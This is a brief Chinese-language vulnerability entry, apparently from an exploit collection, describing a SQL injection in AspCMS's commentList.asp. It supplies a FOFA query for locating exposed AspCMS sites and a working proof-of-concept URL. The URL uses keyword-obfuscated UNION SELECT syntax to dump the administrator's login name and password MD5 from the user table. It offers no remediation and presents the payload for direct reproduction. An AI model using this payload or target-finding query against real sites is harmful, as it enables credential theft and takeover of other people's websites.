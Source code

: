 # AspCMS commentList.asp SQL注入漏洞

## 漏洞描述

AspCMS commentList.asp 存在SQL注入漏洞，攻击者通过漏洞可以获取管理员md5的密码

## 漏洞影响

```
AspCMS
```

## FOFA

```
app="ASPCMS"
```

## 漏洞复现

通过网站源码响应判断CMS

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202170904613.png)

验证POC

```php
/plug/comment/commentList.asp?id=-1%20unmasterion%20semasterlect%20top%201%20UserID,GroupID,LoginName,Password,now(),null,1%20%20frmasterom%20{prefix}user
```

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202170904678.png)

成功获取管理员账号以及密码的MD5